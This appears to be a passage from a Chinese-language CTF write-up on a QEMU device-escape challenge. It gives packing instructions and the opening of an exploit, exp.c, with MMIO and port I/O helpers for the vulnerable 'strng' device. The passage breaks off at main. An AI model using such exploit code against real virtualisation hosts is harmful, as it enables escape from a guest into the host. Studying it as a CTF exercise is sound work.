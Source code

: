 ```c
```

### exp.c

泄露地址拿gdb调下就好，这个里面没法ssh，所以exp需要打包到磁盘文件再从qemu启动本地读flag。打包命令为`find . | cpio -o --format=newc > rootfs.cpio`，其他跟第一道题没什么区别，调试一下看看偏移就好

```c
#include <sys/io.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/mman.h>
#include <assert.h>
#include <fcntl.h>
#include <inttypes.h>
#include <sys/types.h>

unsigned char* mmio_mem;
uint32_t pmio_base=0xc010;

void die(const char* msg)
{
    perror(msg);
    exit(-1);
}

void mmio_write(uint32_t addr,uint32_t value)
{
    *((uint32_t *)(mmio_mem+addr)) = value;
}

uint32_t mmio_read(uint32_t addr)
{
    return *((uint32_t*)(mmio_mem+addr));
}

void pmio_write(uint32_t addr,uint32_t value)
{
    outl(value,addr);
}

uint32_t pmio_read(uint32_t addr)
{
    return (uint32_t)(inl(addr));
}

uint32_t pmio_abread(uint32_t offset)
{
    //return the value of (addr >> 2)
    pmio_write(pmio_base+0,offset);
    return pmio_read(pmio_base+4);
}

void pmio_abwrite(uint32_t offset,uint32_t value)
{
    pmio_write(pmio_base+0,offset);
    pmio_write(pmio_base+4,value);
}

int main()
{
// Open and map I/O memory for the strng device
```